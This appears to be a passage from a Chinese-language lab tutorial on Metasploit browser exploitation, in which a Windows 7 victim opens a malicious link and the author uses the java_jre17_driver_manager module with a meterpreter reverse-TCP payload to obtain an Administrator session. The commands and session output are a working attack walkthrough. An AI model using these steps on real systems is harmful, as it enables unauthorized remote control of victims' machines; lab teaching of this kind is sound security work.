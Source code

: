 ###### 5、受害者点击恶意链接

```
进入 win7，打开IE（要新版本的）浏览器或是IE内核的浏览器，比如 360 浏览器（貌似没用），访问恶意链接
http://192.168.36.136/exploit.html
```

###### 6、返回 kali 查看已经建立会话

#### 基于 java 环境的漏洞利用获取 shell

###### 1、搭建 java 环境

> 第一步我们先安装 java 环境上传 jre 到 win7 或 xp 操作系统
> 注：通过此案例，告诉大家，软件升级还是很重要的。

###### 2、实战-使用 java 模块 getshell

```
msf6 > use exploit/multi/browser/java_jre17_driver_manager
msf6 exploit(multi/browser/java_jre17_driver_manager) > show options

注：看到这里 target 是一个通用的 java payload。 我们可以自己指定一个，也可以使用默认指定
的 payload。

msf6 exploit(multi/browser/java_jre17_driver_manager) > show payloads 
			#查看此 java模块可以使用的 payloads
			
msf6 exploit(multi/browser/java_jre17_driver_manager) > set payload java/meterpreter/reverse_tcp
msf6 exploit(multi/browser/java_jre17_driver_manager) > set LHOST 192.168.1.53
msf6 exploit(multi/browser/java_jre17_driver_manager) > jobs -K
msf6 exploit(multi/browser/java_jre17_driver_manager) > exploit

如果出现错误提示，说明 4444 端口被占用
lsof -i:4444 		#查看占用 4444 端口的进行 ID
kill -9 1945		#然后将该进程杀死
或者jobs -K

msf6 exploit(multi/browser/java_jre17_driver_manager) > exploit
会出现恶意地址
```

在 win7 上安装 java 环境

```
win7 主机访问 刚刚msf出现的地址
	提示我们 java 版本需要更新我们点击 later 先不更新
	然后我们发现运行了一个 java 程序,但是用户关闭了 java 程序也不影响我们 session 的正常访问。
	此时已经建立session，按下回车在sessions 查看就可
```

回到 MSF 控制台

```
msf6 exploit(multi/browser/java_jre17_driver_manager) > sessions -i 1
meterpreter > getuid 

		Server username: Administrator
```
